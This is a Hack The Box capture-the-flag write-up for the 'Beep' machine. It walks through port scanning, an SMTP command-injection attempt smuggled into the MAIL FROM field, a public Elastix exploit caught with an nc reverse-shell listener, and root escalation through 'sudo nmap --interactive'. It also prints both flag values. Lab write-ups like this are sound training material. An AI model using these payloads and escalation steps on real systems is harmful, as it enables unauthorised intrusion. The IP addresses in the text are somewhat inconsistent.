 <H1 style="text-align: center;">Hack The Box </H1>
<H2 style="text-align: center;">Beep write up </H2>
<H2 style="text-align: center;">By Michael ThugBounty Keck </H2>
<p style="text-align: center"><img src="/images/Beep/Beep.png"></p>


# Recon
The researcher started out with a scan of the host (10.10.10.3) using naabu<sup>1</sup>
```naabu -host 10.10.10.7 -p - -c 500 -nmap-cli 'nmap -sV -sC -n -Pn -oN active-hosts' -o naabu.txt```

|Status|IP|Port| Status | IP | Port |
| -----|--|----------- | --- | -- | ---| 
| open | 10.10.10.7 | 22 | open | 10.10.10.7 | 993 |
| open | 10.10.10.7 | 25 | open | 10.10.10.7 | 995 |
| open | 10.10.10.7 | 80 | open | 10.10.10.7 | 995 |
| open | 10.10.10.7 | 110 | open | 10.10.10.7 | 3306 |
| open | 10.10.10.7 | 111 | open | 10.10.10.7 | 4190 |
| open | 10.10.10.7 | 143 | open | 10.10.10.7 | 4445 |
| open | 10.10.10.7 | 443 | open | 10.10.10.7 | 4559 |
| open | 10.10.10.7 | 878 | open | 10.10.10.7 | 5030 |
| open | 10.10.10.7 | 10000 |
<p style="text-align: center"><img src="/images/Beep/beep%20(2).jpg"></p>

# User enum
<details>
    <summary>PORT 22 OpenSSH 4.3</summary>
    <p>Moving on from this one until creds are found.</p>
 </details>
 <details>
    <summary>PORT 25 Postfix smtpd</summary>
    <p> 
    smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
    Attempted to find the ver of the service but I was not able to.
    Then tried a quick manual test to see if RCE was possible. 

```
HELO x 
MAIL FROM:<;ping -c 4 192.168.49.161;> 
RCPT TO:<root> 
DATA 
<enter> 
vry4n 
. 
QUIT

```
This did not work. 
</p>
</details>
<details>
    <summary>PORT 80 http</summary>
    <p>Port 80 redirects to 443.</p>
 </details>
 <details>
    <summary>PORT 443 https</summary>
    <p>Going to https://10.10.10.7 I found a elastix sign in page.
    I tried some defult creds root:root, admin:admin, and elastix: elastix and all failed.
    Next I used google search and found an exploit 18650.py<sup>2</sup> 
    After updating the RHOST, LHOST, AND PORT I started a nc listener.
    
```
    nc -nlvp 4444
``` 
and ran the script, 
```
python2.7 18650.py 
```
but failed to get a call back. 
after some research I found a suite of VoIP tools that could be used to find an open extention since ext 1000 was not working. 
I downloaded sipvicious<sup>3</sup>. From the sipvicious wiki<sup>4</sup> I was able to find the proper commend 

```
./svwar -m INVITE 10.0.0.1
```
The command returned an open ext 233<p style="text-align: center"><img src="/images/Beep/beep%20(1).jpg</p>.  I again updated my 18650.py with the new ext <p style="text-align: center"><img src="/images/Beep/Beep(4).png"></p> and ran it again, this time I did get a call back.
Looking at the exploit there was a way to upgrade to admin right away. The user needed to run

```
sudo nmap --interactive

```
then 

```
 !sh 
```
Since I was root I went a head and got both flags.<p style="text-align: center"><img src="/images/Beep/Beep(3).png"></p> 
USER FLAG:5be8f535cdf2b007b64885bf766db5d6
ROOT FLAG:a874a4316d949910a7fe32ca0da02907
 </p>
 </details>

 <p>No other ports were needed.</p>
 



REF
1. https://github.com/projectdiscovery/naabu
2. https://www.exploit-db.com/exploits/18650
3. https://www.kali.org/tools/sipvicious/
4. https://github.com/EnableSecurity/sipvicious/wiki/SVWar-Usage

